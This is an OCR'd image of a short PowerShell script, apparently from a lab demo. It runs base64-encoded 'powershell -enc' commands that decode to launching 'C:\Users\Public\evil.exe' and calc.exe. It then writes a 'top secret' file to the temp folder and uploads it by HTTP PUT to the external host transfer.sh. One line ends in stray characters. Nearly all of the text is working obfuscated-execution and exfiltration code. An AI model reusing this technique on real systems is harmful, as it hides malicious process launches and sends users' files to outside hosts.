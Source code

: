 powershell -enc UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACcAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMAXABlAHYAaQBsAC4AZQB4AGUAJwA=
powershell -enc UwB0AGEAcgB0AC0AUABSAE8AQwBFAFMAUwAgACcAYwBhAGwAYwAuAGUAeABlACcA$$

$path = "$env:TEMP\important.txt"

Set-Content -Path $path -Value "Top secret info from Zakariae's lab"

Invoke-RestMethod -Uri "https://transfer.sh/important.txt" -Method Put -InFile $path -OutFile "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"

